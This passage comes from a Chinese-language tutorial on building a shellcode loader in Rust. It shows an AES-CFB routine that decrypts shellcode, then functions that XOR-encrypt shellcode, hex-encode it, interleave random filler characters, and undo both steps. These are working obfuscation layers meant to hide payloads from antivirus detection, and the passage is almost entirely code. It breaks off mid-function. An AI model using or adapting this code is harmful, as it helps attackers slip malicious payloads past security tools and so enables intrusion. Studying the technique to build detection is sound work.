 ```rust

    let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();

    let mut buf = ciphertext.to_vec();
    let shellcode = cipher.decrypt(&mut buf).unwrap();

    shellcode.to_vec()
}
```

### 添加随机字符
同样先在`Cargo.toml`文件中添加下面的依赖。
```toml
[dependencies]
hex = "0.4.3"
```

下面是结合异或加密和添加随机字符的代码，`xor_encrypt`将对shellcode与key进行异或，使用`hex::encode`将异或结果转为十六进制字符串返回，方便后面添加随机字符。`add_random`迭代`xor_encrypt`返回的字符串的每个字符，并在每次迭代时添加一个随机字符。最后，使用 `hex::encode` 将结果转为十六进制字符串返回。`xor_decrypt`和`rm_random`是对应的二次异或和删除随机字符的函数。
```rust
fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {
    let mut encrypted = Vec::new();
    for (i, &b) in shellcode.iter().enumerate() {
        encrypted.push(b ^ key[i % key.len()]);
    }
    hex::encode(&encrypted)
}

fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {
    let encrypted = hex::decode(encrypted).expect("Error");

    let mut decrypted = Vec::new();
    for (i, &b) in encrypted.iter().enumerate() {
        decrypted.push(b ^ key[i % key.len()]);
    }
    decrypted
}

fn add_random(xor_string: &str, key: &str) -> String {
    let mut result = String::new();

    for (i, c) in xor_string.chars().enumerate() {
        result.push(c);
        result.push(key.chars().nth(i % key.len()).unwrap());
    }
    hex::encode(&result)
}

fn rm_random(random_string: &str) -> Vec<u8> {
    let mut result = String::new();

    let random_string = hex::decode(random_string).expect("Invalid String");
    let random_string = match std::str::from_utf8(random_string.as_slice()) {
        Ok(s) => s,
        Err(_) => "Invalid UTF-8 sequence",
    };

    for (i, c) in random_string.chars().enumerate() {
        if i % 2 == 0 {
            result.push(c);
        }
    }
    result.as_bytes().to_vec()
```